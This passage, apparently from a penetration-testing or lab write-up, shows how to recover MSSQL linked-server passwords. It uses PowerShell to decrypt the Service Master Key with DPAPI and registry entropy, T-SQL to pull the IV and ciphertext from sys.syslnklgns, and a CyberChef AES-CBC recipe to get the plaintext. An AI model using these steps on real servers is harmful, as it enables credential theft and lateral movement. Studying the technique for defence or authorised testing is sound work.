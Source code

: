 2. Decrypt SMK in PowerShell
    
    ```powershell
    $encryptedData = "0x...";  # From SQL query
    $encryptedData = $encryptedData.Substring(18);
    $encryptedData = -split ($encryptedData -replace '..', '0x$& ');
    $entropy = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy").Entropy;
    Add-Type -AssemblyName System.Security;
    $SMK = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedData, $entropy, 'LocalMachine');
    Write-Host (($SMK|ForEach-Object ToString X2) -join '');
    ```
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/a0393ee8-6737-4e60-b098-cb43f6326392/image.png?table=block&id=1d385370-06ca-80b8-95fb-e66197e049f2&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744524000000&signature=KbFbnCsV-Q80S8re_eL0iCJvuL2U17c4qgKOfGHdKzo&downloadName=image.png)
    
    This gives you the decrypted **hex-encoded SMK**. which we may now use to decrypt the credentials found previously. 
    
    You can verify which encryption algorithm was used by checking the length of the decrypted Service Master Key . 
    
    - If it is 16 bytes long, then AES was used
    - if it is 8 bytes long then 3DES was used.
        In this case, we are running MSSQL Server 2022 , and the Service Master Key is 16 bytes long, so we know that AES is the encryption algorithm being used to encrypt the linked server credentials.
        
#### 🔓 5. Decrypting Linked Server Passwords with SMK
1. Extract IV & Ciphertext
    
    ```sql
    SELECT
        name,
        SUBSTRING(pwdhash, 5, 16) AS 'IV',
        SUBSTRING(pwdhash, 21, LEN(pwdhash) - 20) AS 'Ciphertext'
    FROM sys.syslnklgns
    WHERE LEN(pwdhash) > 0;
    ```
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/7fabaaf1-f607-4c49-a395-a3ea404a6f2f/image.png?table=block&id=1d385370-06ca-807e-b7ec-f04edfc1e166&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744524000000&signature=dD9EpXmozDGCdRSF5vFMbRApnU2HXbtnwTiFXIGoF6g&downloadName=image.png)
    
2. Use CyberChef to Decrypt
    
    Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)Decode_text('UTF-16LE%20(1200)'))'s **AES Decrypt** recipe:
    
    - **Key**: The SMK from PowerShell (Hex)
    - **IV**: Extracted IV from T-SQL, The first 16 bytes (after padding) of `ws_user`'s `pwdhash`
    - **Input**: Extracted Ciphertext which in this case is the remaining bytes from `ws_user` 's `pwdhash`
    - **Mode**: CBC
    - **Encoding**: Hex
    - **Output**: Decode as UTF-16LE
        